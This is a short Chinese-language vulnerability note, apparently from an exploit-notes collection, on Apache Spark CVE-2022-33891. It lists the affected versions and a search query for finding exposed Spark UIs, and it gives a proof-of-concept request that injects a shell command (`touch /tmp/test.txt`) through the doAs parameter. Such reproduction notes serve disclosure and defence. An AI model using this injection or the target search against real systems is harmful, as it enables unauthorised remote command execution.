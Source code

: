 # Apache Spark doAs 远程命令执行漏洞 CVE-2022-33891

## 漏洞描述

Apache Spark 支持启动 ACL 来为 Web UI 访问提供身份验证，当 ACL 启动时可以通过构造特殊请求用户名导致 RCE

## 漏洞影响

```
Spark Core - Apache <=3.0.3
3.1.1 <= Spark Core - Apache <=3.1.2
3.2.0 <= Spark Core - Apache <=3.2.1
```

## 网络测绘

```
app="APACHE-Spark"
```

## 漏洞复现

主页面

![image-20220909104326093](images/202209091043173.png)

验证 POC

```
/jobs/?doAs=`touch /tmp/test.txt`
```

![image-20220909104423065](images/202209091044113.png)
